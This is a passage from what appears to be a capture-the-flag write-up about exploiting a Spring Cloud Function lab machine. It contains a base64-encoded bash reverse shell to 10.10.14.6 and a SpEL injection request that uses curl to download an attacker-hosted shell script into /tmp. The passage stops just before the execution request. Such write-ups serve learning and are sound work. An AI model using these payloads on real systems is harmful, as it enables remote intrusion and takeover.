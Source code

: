     oxdf@hacky$ echo ' bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64 -w0
    IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMQo=
    oxdf@hacky$ echo ' bash -i >& /dev/tcp/10.10.14.6/443 0>&1 ' | base64 -w0
    IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK
    

I can try that as well by sending this:

![image-20230313184201736](../img/image-20230313184201736.png)

It still doesn’t connect.

#### Success By curl

My original solve was to try to use `curl` to request a payload from my host
and pipe that into `bash`.

![image-20230313184312048](../img/image-20230313184312048.png)

I’ll set up a Python webserver (`python -m http.server 80`) and send this
request. There is a request back to my server, but it’s for `/shell.sh|bash`:

    
    
    oxdf@hacky$ python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.11.204 - - [13/Mar/2023 18:40:40] code 404, message File not found
    10.10.11.204 - - [13/Mar/2023 18:40:40] "GET /shell.sh|bash HTTP/1.1" 404 -
    

The `|` is being interpreted as part of the path. Instead, I can save the file
in `/tmp`:

    
    
    POST /functionRouter HTTP/1.1
    spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("curl 10.10.14.6/shell.sh -o /tmp/0xdf.sh")
    Host: 10.10.11.204:8080
    ...[snip]...
    

And then send another request to run it:
